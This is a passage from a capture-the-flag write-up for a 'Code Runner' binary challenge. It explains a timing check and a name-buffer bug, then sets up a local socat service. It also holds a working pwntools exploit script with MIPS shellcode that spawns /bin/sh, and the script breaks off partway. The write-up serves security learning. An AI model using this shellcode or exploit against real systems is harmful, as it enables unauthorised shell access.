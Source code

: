 It works!

Again, the time reported is incorrect, above the `0.8980` is really 8980 usec, so the time check passed.  The `Your time comes.` is prompting for [upto] 52 bytes of shellcode.  Since none was provided the binary tried to execute nulls (line 16 in `main`).  But before that you're prompted for your `Name`, this is used for the `/Time` file:

```
# cat /Time
8980:datajerk8980:
40392:datajerk40392:
9795:datajerk9795:
```

Due do a bug in their code if you input 8 characters, it'll run up to the buffer used by `snprintf`, thus appending your time to your name (look at the code).

To test out the last stage of this challenge use `socat` to run the binary as a service:

First, add the logo for the full experience:

```
# cat >logo <<'EOF'
________         ____        __    _____
\______ \   ____/_   | _____/  |__/ ____\
 |    |  \_/ __ \|   |/ ___\   __\   __\
 |    `   \  ___/|   \  \___|  |  |  |
/_______  /\___  >___|\___  >__|  |__|
        \/     \/         \/
---------------Code Runner---------------
EOF
```

Then:

```
ln -s -f /opt/bin/bash /bin/sh # busybox will segfault with the 36-byte shellcode
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/root/binary0,pty,stderr,setsid,sigint,sane,rawer
```

From a different terminal:

```
#!/usr/bin/python3

from pwn import *
import time

payload = open('payload0','rb').read()

#https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=35868
#36 bytes
shellcode  = b""
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xff\xff\xd0\x04"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\x01\x10\xe4\x27"
shellcode += b"\x0f\xf0\x84\x24"
shellcode += b"\xab\x0f\x02\x24"
shellcode += b"\x0c\x01\x01\x01"
shellcode += b"/bin//sh"
shellcode += (0x34 - len(shellcode)) * b'\x00'

p = remote('127.0.0.1',9999)

p.recvuntil('Faster >')
p.sendline(payload)
p.recvuntil('Name')
p.send('datajerk')
```